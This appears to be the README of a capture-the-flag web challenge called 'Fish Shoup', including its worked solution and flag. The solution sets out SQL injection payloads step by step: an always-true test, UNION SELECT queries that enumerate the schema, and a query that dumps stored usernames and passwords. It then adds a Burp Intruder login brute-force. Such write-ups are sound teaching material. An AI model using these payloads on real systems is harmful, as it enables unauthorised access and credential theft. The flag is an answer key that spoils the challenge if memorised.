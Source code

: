 # Fish Shoup

## Category
Web 50

## Question Text

>Help all marshmellow fart and skittle burp fishes!!!
>
>We forgot the credentials of our blog account because we have small brains!
>
>Log into it to get your awesome reward of helping us, we are nice creatures!
>
>But remember to keep it a secret! Shhh...
>http://web.chal.gryphonctf.com:17562

## Created by

@stopduckroll &amp; @paux &amp; @platy

## Setup Guide
Do `bash build.sh`

(It takes 15 seconds for the sql server to initialise. Everything should work after awhile)

## Distribution
None.

## Solution

1. When you first see the site, you will notice that you can search for fishes and also login
2. When you enter `'OR'1==1'#` you will notice that all entries comes out, meaning its vulnerable to sql injection
3. To view database name `asdf' UNION ALL SELECT null,null,database(),null,null #`
4. You can then use that to enter malicious sql code to view all table names `asdf' UNION ALL SELECT null,null,table_name,null,null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'fishshoups' #`
5. From there you realise that there is a table storing user details,run this to see the collumn names `asdf' UNION ALL SELECT null,null,column_name,null,null FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'user_details_login' #` 
6. Crafting a new malicious string `asdf' UNION ALL SELECT null,user,password,null,role FROM user_details_login #` will allow you to see all the usernames
7. Now with all the username and passwords, you can use burpsuite to perform a "intruder attack on it"
8. Put the two payloads and put a regex for `GCTF`
9. Get flag

### Flag
`GCTF{m00ny_607_17}`


## Credits
CTF 101.

Thanks @Lflare for fixing mysql issues.
